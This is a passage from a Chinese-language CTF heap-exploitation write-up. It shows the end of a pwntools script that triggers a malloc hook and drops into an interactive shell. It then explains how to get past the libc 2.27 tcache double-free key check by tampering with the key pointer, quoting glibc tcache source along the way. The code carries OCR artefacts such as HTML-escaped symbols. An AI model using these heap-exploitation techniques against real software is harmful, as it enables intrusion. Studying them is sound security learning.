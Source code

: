 ```


message = "======================== TRIGGER MALLOC HOOK ======================="
success(message)
p.sendlineafter('&gt;', '1')
p.sendafter('index', '1')
p.sendafter('size', '1')

p.interactive()
```



## 2.27

​ libc2.27在更新后，malloc源码发生了变化，基本上和libc2.31的源码一样，引入了key指针来避免double free，所以我们在2.27下的利用手法和2.31下的利用手法基本一致，直接篡改key指针即可绕过检查。

​ 在老版libc下关于tcache的俩结构体

```
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
`{`
  struct tcache_entry *next;
`}` tcache_entry;

/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
`{`
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
`}` tcache_perthread_struct;
```

​ 从tcache中拿堆块的函数tcache_get()

```
/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
`{`
  tcache_entry *e = tcache-&gt;entries[tc_idx];
  assert (tc_idx &lt; TCACHE_MAX_BINS);
  assert (tcache-&gt;entries[tc_idx] &gt; 0);
  tcache-&gt;entries[tc_idx] = e-&gt;next;
  --(tcache-&gt;counts[tc_idx]);
  return (void *) e;
`}`
```
